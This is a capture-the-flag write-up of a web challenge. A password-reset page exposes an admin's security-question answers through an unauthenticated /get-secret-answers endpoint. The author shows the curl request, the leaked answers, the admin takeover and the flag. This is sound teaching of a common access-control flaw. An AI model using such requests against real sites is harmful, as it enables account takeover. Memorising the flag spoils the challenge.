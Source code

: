 **Author: Zukane**

*The helpdesk is sick and tired of resetting users passwords. To help them out, we've developed a state of the art security questions system that allows users to reset their own passwords.*

##### Challenge overview

In this web challenge, we are not given any source code, but we can connect to a website.
On the site, we can login, register a new user, or recover a forgotten password.

I began by registering a new user. On the register page, we are prompted for a username and password like usual, but also three security questions. I just enter `test` on every field. 
After registering the user, we can log in. We are then met with a dashboard which simply lists the usernames of the admins:
1. klarz
2. iLoop

Since the only notable feature on the page is the `forgot-password` page, I navigate to it. On the page, we are prompted for the username of whoever we want to recover the password from. I input `klarz`, hoping that I can reset the password of an admin user and elevate my priveleges.

To reset a password, we need to answer the three security questions generated on account registration. 

##### Solution

By inspecting the source on the `/forgot-password` page, we can see the JavaScript code is present.

We can see how the site fetches the security questions:

```javascript
const username = document.getElementById('username').value;

fetch('/get-secret-answers', {
	method: 'POST',
	headers: { 'Content-Type': 'application/json' },
	body: JSON.stringify({ username: username })
})
```

It performs a POST-request to `/get-secret-answers` with the username we specified. Using curl, we can make the same POST-request and see what the secret answers are:

```
└─$ curl -X POST https://munintrollet-4202-questions.ept.gg/get-secret-answers \
     -H "Content-Type: application/json" \
     -d '{"username": "klarz"}'     
   
{"secret_answer_1":"kryptolarz","secret_answer_2":"nicw","secret_answer_3":"I dont have one","secret_question_1":"What was your childhood nickname?","secret_question_2":"What is the name of your first pet?","secret_question_3":"What was the make and model of your first car?"}
```

To make it more clear, the answers are:

```
What was your childhood nickname?               - kryptolarz
What is the name of your first pet?             - nicw
What was the make and model of your first car?  - I dont have one
```

By inputting these values on the site, we can reset the admin's password to anything we want.
After resetting the password, we can simply log in. We are then met with a welcome message as well as the flag:

```
# Welcome ADMIN!1
EPT{cl13nt_s1d3_v4l1d4t1on_1s_l0l}
```

